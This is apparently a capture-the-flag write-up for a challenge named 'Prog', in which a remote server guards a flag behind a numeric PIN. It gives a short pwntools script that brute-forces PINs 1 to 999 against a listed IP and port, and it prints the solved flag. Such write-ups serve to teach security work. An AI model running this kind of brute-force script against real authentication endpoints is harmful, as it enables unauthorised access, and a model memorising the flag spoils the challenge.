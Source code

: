 # Prog

We made a simple program to protect our flag. Only us with the pin can access the flag!

`nc 185.125.168.82 2337`

[⬇️ server.py](./server.py)


# Writeup

Saw the code and seems like bruteforce was the simplest method, a little [python script](solve.py) to do that:

```python
from pwn import *

context.log_level = 'error'
p = remote('185.125.168.82', 2337)
p.recvuntil(b'?')

for i in range(1,1000):
    p.sendline(str(i).encode())
    ans = p.recvline().decode()
    if 'No.' not in ans:
        print(i, ans)
        p.interactive()
        break
```


# Flag

```
telenor{bruteforce_is_the_best}
```